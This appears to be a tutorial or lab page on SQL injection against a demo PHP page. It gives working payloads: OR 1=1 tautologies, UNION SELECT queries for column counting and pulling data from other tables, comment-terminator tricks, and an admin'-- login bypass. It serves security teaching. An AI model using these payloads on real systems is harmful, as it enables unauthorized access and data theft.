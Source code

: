 POST Method through **Cars** input field:

```
Ford' OR 1='1 -- Try ALL options (Audi, Honda, Dodge)
```
GET Method through **Tires** Selection field

Change the Selection Number to (1 - 4) to show the process of testing for URL injection Injectable
Syntax:

```
<URL>/uniondemo.php?Selection=2 OR 1=1 <!-- WORKS! -->
```

```
<URL>/uniondemo.php?Selection=2' OR 1='1 <!-- DOESN'T work! -->
```
**Nesting a Query** :

```
<URL>/uniondemo.php?Selection=2 Union SELECT 1,2,3 <!-- Validate NUMBER of columns
required -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM Tires <!-- Test pulling
VALID data -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM car <!-- Test pulling data
from ALTERNATE table -->
```
**Comment Syntax** :

- # — Anything after a pound will be ignored
- -- — This is two dashes and a trailing space. Anything after will be ignored (INCLUDING syntax
    appended by the backend script/app)

This syntax will be utilized with more complex backend queries, that leverage advanced functions,
or where only certain areas within the query are susceptible to injection.

**More complex query** (Where the injectable variable is in the middle of nested query): We use the )
(close parenthensis) to close part of the nested query. We than need to make the query **TRUE** in
order to inject our UNION with a terminator, to then properly execute our modified query. We finally
add the # (pound sign) to comment out the rest of the legitimately configured query (that is
embeded in the server-side PHP code). NOTE: This is a little more advanced and requires us know
exactly how the legitimate query is configured, so that we craft our precise inject.

As an example, you might have a page that asks for both a username and password.

Inject the following in the username input field:

```
admin'--
```
The resulting query, being executed by the server, would look like this:

```
SELECT * FROM members WHERE username = 'admin'-- ' AND password = 'password'
```

## DEMO: SQL Injection - Nesting Statements (SQL Demo Box).  
